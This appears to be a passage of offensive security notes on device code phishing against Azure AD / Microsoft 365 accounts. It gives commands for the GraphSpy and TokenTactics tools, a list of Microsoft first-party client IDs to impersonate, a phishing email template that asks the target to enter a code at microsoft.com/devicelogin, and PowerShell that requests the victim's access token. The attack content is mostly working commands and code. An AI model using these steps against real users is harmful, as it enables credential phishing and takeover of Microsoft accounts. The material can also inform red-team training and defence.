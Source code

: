 - Graphspy https://github.com/RedByte1337/GraphSpy
	- Go to device codes and generate one
```
python.exe .\GraphSpy-master\GraphSpy\GraphSpy.py
```


- Tokentactics https://github.com/rvrsh3ll/TokenTactics
```
Import-Module .\TokenTactics.psd1

Get-AzureToken -Client MSGraph
```

#### Common application ID's
- https://learn.microsoft.com/en-us/troubleshoot/azure/active-directory/verify-first-party-apps-sign-in
```
ACOM Azure Website 	23523755-3a2b-41ca-9315-f81f3f566a95
AEM-DualAuth 	69893ee3-dd10-4b1c-832d-4870354be3d8
ASM Campaign Servicing 	0cb7b9ec-5336-483b-bc31-b15b5788de71
Azure Advanced Threat Protection 	7b7531ad-5926-4f2d-8a1d-38495ad33e17
Azure Data Lake 	e9f49c6b-5ce5-44c8-925d-015017e9f7ad
Azure Lab Services Portal 	835b2a73-6e10-4aa5-a979-21dfda45231c
Azure Portal 	c44b4083-3bb0-49c1-b47d-974e53cbdf3c
AzureSupportCenter 	37182072-3c9c-4f6a-a4b3-b3f91cacffce
Bing 	9ea1ad79-fdb6-4f9a-8bc3-2b70f96e34c7
CPIM Service 	bb2a2e3a-c5e7-4f0a-88e0-8e01fd3fc1f4
CRM Power BI Integration 	e64aa8bc-8eb4-40e2-898b-cf261a25954f
```

#### Send device code to the target
- Email example:
```
Dear <USER>,

Use the Code to access the content of the website: https://microsoft.com/devicelogin

Code: <CODE>
```

#### Request access token
- Uses the device code from `$authResponse.device_code`
- Manually version 1 API
```
$GrantType = "urn:ietf:params:oauth:grant-type:device_code"

$body=@{
	"client_id" = $ClientID
	"grant_type" = $GrantType
	"code" = $authResponse.device_code
	"resource" = $Resource
}

$Tokens = Invoke-RestMethod -UseBasicParsing -Method Post -Uri "https://login.microsoftonline.com/common/oauth2/devicecode?api-version=1.0" -Body $body
$GraphAccessToken = $Tokens.access_token

$GraphAccessToken
```
